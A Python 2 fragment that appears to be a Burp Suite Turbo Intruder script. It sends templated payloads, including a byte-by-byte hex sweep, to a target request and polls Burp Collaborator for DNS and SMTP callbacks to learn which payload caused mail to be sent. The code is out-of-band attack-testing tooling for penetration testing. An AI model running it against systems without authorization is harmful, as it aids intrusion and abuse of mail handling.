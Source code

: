 ```python
    for payload in payloads:
        if "$hex" in payload:
            generateHex(0, 255, payload, engine)
        else:  
            manipulated = replacePayload(payload)
            engine.queue(target.req,  urllib.quote_plus(manipulated) if shouldUrlEncode else manipulated)
            time.sleep(REQUEST_SLEEP)
            
    print "Waiting for interactions..."
    counter = 0            
    while counter < 10 and engine.engine.attackState.get() < 3: 
        found = fetchInteractions(collab)
        print "Found " + str(found) + " interactions"
        time.sleep(COLLAB_SLEEP)
        counter += 1
        if found > 0:
            counter = 0
    print "Completed"    

def replacePayload(payload):
    id1 = collab.generatePayload(False)
    id2 = collab.generatePayload(False)
    manipulated = payload
    manipulated = manipulated.replace("$validServer", validServer);
    manipulated = manipulated.replace("$invalidServer", invalidServer);
    manipulated = manipulated.replace("$collabServer", collabServer);
    manipulated = manipulated.replace("$collab1", id1);
    manipulated = manipulated.replace("$collab2", id2);
    mappings[id1] = manipulated
    return manipulated

def generateHex(start, end, payload, engine):
    for chrNum in range(start, end + 1):          
        manipulated = replacePayload(payload)
        manipulated = manipulated.replace("$hex", "{:02x}".format(chrNum));
        engine.queue(target.req,  urllib.quote_plus(manipulated) if shouldUrlEncode else manipulated)
        time.sleep(REQUEST_SLEEP)

def fetchInteractions(collab):
    interactions = collab.fetchAllCollaboratorInteractions()
    found = interactions.size()
    for interaction in interactions:
        smtp = interaction.getProperty('conversation')
        currentInteractionId = interaction.getProperty('interaction_id')
        try:
            original_payload = mappings[currentInteractionId]
        except KeyError:
            print "failed to look up payload for interaction id "+currentInteractionId
            original_payload = 'lookup_failed'
        
        if smtp == None:
            print "Got DNS interaction - not reporting"
            continue

        print "Got SMTP interaction, about to report"
            
        decoded = base64.b64decode(smtp)             
        email = decoded.partition('RCPT TO:<')[2].partition('>\r\n')[0]
        print "Found interaction! " + original_payload + " with interaction " + currentInteractionId      
    return found
```